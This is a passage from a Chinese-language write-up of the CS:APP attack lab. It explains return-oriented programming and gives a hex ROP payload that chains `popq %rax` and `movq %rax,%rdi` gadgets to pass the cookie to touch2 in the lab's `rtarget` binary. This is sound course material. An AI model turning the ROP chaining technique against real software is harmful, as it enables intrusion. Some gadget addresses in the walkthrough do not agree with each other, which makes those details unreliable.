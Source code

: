 可以看到，我们将cookie字符串存放在栈帧的较高地址处，以避免其被覆盖。

## part2：Return-Oriented Programming

在本部分中，我们需要对保护机制比较完善的`rtarget`程序进行攻击，在此程序中应用了随机化栈空间和限制可执行代码段的保护机制，使得我们在栈帧中插入的汇编代码不能被执行。因此，我们需要利用一种叫做Return-Oriented Programming的方式进行攻击，其原理是利用程序中的原有部分的代码片段构造可用于攻击的小工具代码段（gadgets）。这种代码段的特点是其以`0xc3`即`ret`作为代码段的结尾，使得执行其后`%rsp`的值被加以8，而在此地址中，我们又可以安排下一段代码段，通过此方式即可构造我们所需的攻击代码。

![image-20211226142648509](https://github.com/jlu-xiurui/csapp-labs/blob/master/solution/lab3-attack/figure1.png)

值得注意的是，我们可以利用一段汇编代码中的一部分构造另外的汇编代码，例如：

`4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax`

在这段代码中，我们可以从0x4019a2处执行该代码片段，使得其变为如下的汇编代码：

```
4019a2 : 48 89 c7  /* movq %rax,%rdi
4019a5 : c3        /* retq
```

### phase4

在此部分中，我们需要利用`rtarget`执行phase2中相同的攻击，通过实验手册的提示，我们可以知道可以被利用的工具代码段（gadgets）位于`start_farm()`和`mid_farm()`之间。

首先，我们需要在这段代码区间中寻找可能有用的gadgets（为了表示简洁，在这里忽略了末尾的`ret`，但其是存在的）：

```
4019a2: movq %rax,%rdi
4019ab: popq  %rax
```

以上两个gadgets即为该区间中仅有的可能有用的代码片段。因此，为了使得cookie的数值表示传入`%rdi`，我们可以先利用`popq %rax`将栈帧中的数值传入`%rax`，再通过`movq %rax,%rdi`使得该值传入`%rdi`。因此，我们可以构造如下的hex文件`rtarget1`：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* popq %rax */
fa 97 b9 59 00 00 00 00 /* the hex of rookie to be pop into %rax */
a3 19 40 00 00 00 00 00 /* movq %rax,%rdi */
ec 17 40 00 00 00 00 00 /* the address of touch2 */
```

在这里，我讲解一下该代码的具体执行步骤以帮助理解：

* 首先，`getbuf`中调用`ret`返回至`0x4019ab`，在程序计数器`pc`指向`0x4019ab`的同时，`%rsp`中的数值加8并指向`fa 97 b9 59 00 00 00 00 `。

* 执行`popq %rax`操作，使得`%rsp`指向的数值被传入`%rax`，同时`%rsp`中的数值加8并指向`a3 19 40 00 00 00 00 00`，并且`pc`跳转至地址连续的下一指令`4019a5 : c3`，即`ret` 。

* 执行`ret`操作，`pc`跳转至`%rsp`所指向的地址，即`movq %rax,%rdi`。
